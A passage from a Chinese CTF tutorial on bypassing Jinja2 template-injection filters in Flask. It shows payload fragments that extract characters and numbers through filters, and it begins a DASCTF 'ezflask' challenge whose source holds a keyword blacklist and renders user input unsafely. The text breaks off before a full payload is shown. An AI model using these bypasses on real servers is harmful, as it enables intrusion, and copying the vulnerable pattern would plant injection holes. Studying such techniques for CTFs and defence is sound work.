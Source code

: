 ```python
{% set org = (self|string()) %}{{org}}
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/03/attach-877701bea2529dc3fa7caf8bc3e55f19052026b7.png)

可以通过 `<TemplateReference None>` 字符串获取的字符有：尖号、字母和空格以及各种字母。

```python
{% set org = self|string|urlencode %}{{org}}
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/03/attach-302ba69511ea5bfe8091bdb84d66b0ce2038f933.png)

如上图所示，可以获得的字符除了字母以外还有百分号，这一点比较重要，因为如果我们控制了百分号的话我们可以获取任意字符（URL）。

```python
{% set org = (app.__doc__|string) %}{{org}}
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/03/attach-9a505924d7588e09975163b61be7134864b2b5a7.png)

如上图所示，可获得到的字符更多了，有等号、加号、单引号等。

- 对于获取数字，除了上面出现的那几种外我们还可以有以下几种方法：

```python
{% set num = (self|int) %}{{num}}    # 0, 通过int过滤器获取数字
{% set num = (self|string|length) %}{{num}}    # 24, 通过length过滤器获取数字
{% set point = self|float|string|min %}    # 通过float过滤器获取点 .
```

有了数字0之后，我们便可以依次将其余的数字全部构造出来，原理就是加减乘除、平方等数学运算。

下面我们通过两道题目payload的构造过程来演示一下如何使用过滤器来Bypass。

### \[2020 DASCTF 八月安恒月赛\]ezflask

题目源码：

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from flask import Flask, render_template, render_template_string, redirect, request, session, abort, send_from_directory
app = Flask(__name__)

@app.route("/")
def index():
    def safe_jinja(s):
        blacklist = ['class', 'attr', 'mro', 'base',
                     'request', 'session', '+', 'add', 'chr', 'ord', 'redirect', 'url_for', 'config', 'builtins', 'get_flashed_messages', 'get', 'subclasses', 'form', 'cookies', 'headers', '[', ']', '\'', '"', '{}']
        flag = True
        for no in blacklist:
            if no.lower() in s.lower():
                flag = False
                break
        return flag
    if not request.args.get('name'):
        return open(__file__).read()
    elif safe_jinja(request.args.get('name')):
        name = request.args.get('name')
    else:
        name = 'wendell'
    template = '''

    <div class="center-content">
        <p>Hello, %s</p>
```